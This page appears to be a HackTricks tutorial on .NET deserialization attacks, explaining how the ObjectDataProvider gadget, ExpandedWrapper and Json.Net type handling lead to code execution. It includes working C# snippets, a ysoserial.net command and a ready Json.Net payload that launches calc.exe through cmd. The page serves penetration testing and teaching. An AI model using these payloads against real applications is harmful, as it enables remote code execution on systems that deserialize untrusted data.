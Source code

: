# Basic .Net deserialization (ObjectDataProvider gadget, ExpandedWrapper, and Json.Net)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** **🐦**[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

This post is dedicated to **understand how the gadget ObjectDataProvider is exploited** to obtain RCE and **how** the Serialization libraries **Json.Net and xmlSerializer can be abused** with that gadget.

## ObjectDataProvider Gadget

From the documentation: _the ObjectDataProvider Class Wraps and creates an object that you can use as a binding source_.\
Yeah, it's a weird explanation, so lets see what does this class have that is so interesting: This class allows to **wrap an arbitrary object**, use _**MethodParameters**_ to **set arbitrary parameters,** and then **use MethodName to call an arbitrary function** of the arbitrary object declared using the arbitrary parameters.\
Therefore, the arbitrary **object** will **execute** a **function** with **parameters while being deserialized.**

### **How is this possible**

The **System.Windows.Data** namespace, found within the **PresentationFramework.dll** at `C:\Windows\Microsoft.NET\Framework\v4.0.30319\WPF`, is where the ObjectDataProvider is defined and implemented. 

Using [**dnSpy**](https://github.com/0xd4d/dnSpy) you can **inspect the code** of the class we are interested in. In the image below we are seeing the code of **PresentationFramework.dll --> System.Windows.Data --> ObjectDataProvider --> Method name**

![](<../../.gitbook/assets/image (299).png>)

As you can observe when `MethodName` is set `base.Refresh()` is called, lets take a look to what does it do:

![](<../../.gitbook/assets/image (300).png>)

Ok, lets continue seeing what does `this.BeginQuery()` does. `BeginQuery` is overridden by `ObjectDataProvider` and this is what it does:

![](<../../.gitbook/assets/image (301).png>)

Note that at the end of the code it's calling `this.QueryWorke(null)`. Let's see what does that execute:

![](<../../.gitbook/assets/image (302) (1).png>)

Note that this isn't the complete code of the function `QueryWorker` but it shows the interesting part of it: The code **calls `this.InvokeMethodOnInstance(out ex);`** this is the line where the **method set is invoked**.

If you want to check that just setting the _**MethodName**_\*\* it will be executed\*\*, you can run this code:

```java
using System.Windows.Data;
using System.Diagnostics;

namespace ODPCustomSerialExample
{
    class Program
    {
        static void Main(string[] args)
        {
            ObjectDataProvider myODP = new ObjectDataProvider();
            myODP.ObjectType = typeof(Process);
            myODP.MethodParameters.Add("cmd.exe");
            myODP.MethodParameters.Add("/c calc.exe");
            myODP.MethodName = "Start";
        }
    }
}
```

Note that you need to add as reference _C:\Windows\Microsoft.NET\Framework\v4.0.30319\WPF\PresentationFramework.dll_ in order to load `System.Windows.Data`

## ExpandedWrapper

Using the previous exploit there will be cases where the **object** is going to be **deserialized as** an _**ObjectDataProvider**_ instance (for example in DotNetNuke vuln, using XmlSerializer, the object was deserialized using `GetType`). Then, will have **no knowledge of the object type that is wrapped** in the _ObjectDataProvider_ instance (`Process` for example). You can find more [information about the DotNetNuke vuln here](https://translate.google.com/translate?hl=en\&sl=auto\&tl=en\&u=https%3A%2F%2Fpaper.seebug.org%2F365%2F\&sandbox=1).

This class allows to s**pecify the object types of the objects that are encapsulated** in a given instance. So, this class can be used to encapsulate a source object (_ObjectDataProvider_) into a new object type and provide the properties we need (_ObjectDataProvider.MethodName_ and _ObjectDataProvider.MethodParameters_).\
This is very useful for cases as the one presented before, because we will be able to **wrap \_ObjectDataProvider**_\*\* inside an \*\*_**ExpandedWrapper** \_ instance and **when deserialized** this class will **create** the _**OjectDataProvider**_ object that will **execute** the **function** indicated in _**MethodName**_.

You can check this wrapper with the following code:

```java
using System.Windows.Data;
using System.Diagnostics;
using System.Data.Services.Internal;

namespace ODPCustomSerialExample
{
    class Program
    {
        static void Main(string[] args)
        {
            ExpandedWrapper<Process, ObjectDataProvider> myExpWrap = new ExpandedWrapper<Process, ObjectDataProvider>();
            myExpWrap.ProjectedProperty0 = new ObjectDataProvider();
            myExpWrap.ProjectedProperty0.ObjectInstance = new Process();
            myExpWrap.ProjectedProperty0.MethodParameters.Add("cmd.exe");
            myExpWrap.ProjectedProperty0.MethodParameters.Add("/c calc.exe");
            myExpWrap.ProjectedProperty0.MethodName = "Start";
        }
    }
}
```

## Json.Net

In the [official web page](https://www.newtonsoft.com/json) it is indicated that this library allows to **Serialize and deserialize any .NET object with Json.NET's powerful JSON serializer**. So, if we could **deserialize the ObjectDataProvider gadget**, we could cause a **RCE** just deserializing an object.

### Json.Net example

First of all lets see an example on how to **serialize/deserialize** an object using this library:

```java
using System;
using Newtonsoft.Json;
using System.Diagnostics;
using System.Collections.Generic;

namespace DeserializationTests
{
    public class Account
    {
        public string Email { get; set; }
        public bool Active { get; set; }
        public DateTime CreatedDate { get; set; }
        public IList<string> Roles { get; set; }
    }
    class Program
    {
        static void Main(string[] args)
        {
            Account account = new Account
            {
                Email = "james@example.com",
                Active = true,
                CreatedDate = new DateTime(2013, 1, 20, 0, 0, 0, DateTimeKind.Utc),
                Roles = new List<string>
                {
                    "User",
                    "Admin"
                }
            };
            //Serialize the object and print it
            string json = JsonConvert.SerializeObject(account);
            Console.WriteLine(json);
            //{"Email":"james@example.com","Active":true,"CreatedDate":"2013-01-20T00:00:00Z","Roles":["User","Admin"]}
            
            //Deserialize it
            Account desaccount = JsonConvert.DeserializeObject<Account>(json);
            Console.WriteLine(desaccount.Email);
        }
    }
}
```

### Abusing Json.Net

Using [ysoserial.net](https://github.com/pwntester/ysoserial.net) I crated the exploit:

```java
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "calc.exe"
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c calc.exe']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

In this code you can **test the exploit**, just run it and you will see that a calc is executed:

```java
using System;
using System.Text;
using Newtonsoft.Json;

namespace DeserializationTests
{
    class Program
    {
        static void Main(string[] args)
        {
            //Declare exploit
            string userdata = @"{
                '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
                'MethodName':'Start',
                'MethodParameters':{
                            '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
                    '$values':['cmd', '/c calc.exe']
                },
                'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
            }";
            //Exploit to base64
            string userdata_b64 = Convert.ToBase64String(System.Text.Encoding.UTF8.GetBytes(userdata));

            //Get data from base64
            byte[] userdata_nob64 = Convert.FromBase64String(userdata_b64);
            //Deserialize data
            string userdata_decoded = Encoding.UTF8.GetString(userdata_nob64);
            object obj = JsonConvert.DeserializeObject<object>(userdata_decoded, new JsonSerializerSettings
            {
                TypeNameHandling = TypeNameHandling.Auto
            });
        }
    }
}
```

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** **🐦**[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

